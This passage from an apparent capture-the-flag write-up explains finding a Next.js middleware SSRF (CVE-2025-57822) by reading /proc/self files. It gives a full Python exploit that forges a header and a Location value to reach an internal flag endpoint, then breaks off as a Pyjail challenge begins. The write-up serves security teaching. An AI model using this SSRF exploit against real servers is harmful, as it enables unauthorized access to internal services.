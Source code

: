 ```python
print(r.text)
```

From here:
* You can check `/proc/self/cwd/pages/api/get-secret-flag.js` to see the condition required for `GET /api/get-secret-flag` to return the flag.
    * You can probably get the flag from `GET http://127.0.0.1:39722/flag`, but `GET /api/get-secret-flag` does not seem to return the result to the user.
* You can check the Next.js version from `/proc/self/cmdline`.
    * The version is `v15.4.6`, which is vulnerable to [CVE-2025-57822](https://security.snyk.io/vuln/SNYK-JS-NEXT-12299318), allowing SSRF, and SSRF is what we want.
* You can check `/proc/self/cwd/middleware.js` to confirm that the server is indeed vulnerable to CVE-2025-57822 if the `x-secret-code-07` header is set and the request is for `/api/get-secret-flag`.

### Full Exploit

```python
import requests
import random
import jwt
URL = "http://nextbox.ctf.0bscuri7y.xyz/"

s = requests.session()
user = {
    'username': random.randbytes(16).hex(),
    'password': 'xx',
    'firstName': 'ああ',
    'lastName': 'ああ',
    'email': 'xx@a.com',
}
r = s.post(URL + 'api/auth/register', json=user, verify=False)
r = s.post(URL + 'api/auth/login', json=user, verify=False)

token = r.json()["token"]
s.headers={
    "Authorization": f"Bearer {token}",
    "x-secret-code-07": "1",
    "Location": "http://127.0.0.1:39722/flag"
}

r = s.get(URL + 'api/get-secret-flag', verify=False)
print(r.status_code)
print(r.text)
```

## [misc] The Gamble

### Overview

This is a Pyjail where you can run any number of `exec('<actual><operator><guess>')`` statements, with the following constraints:
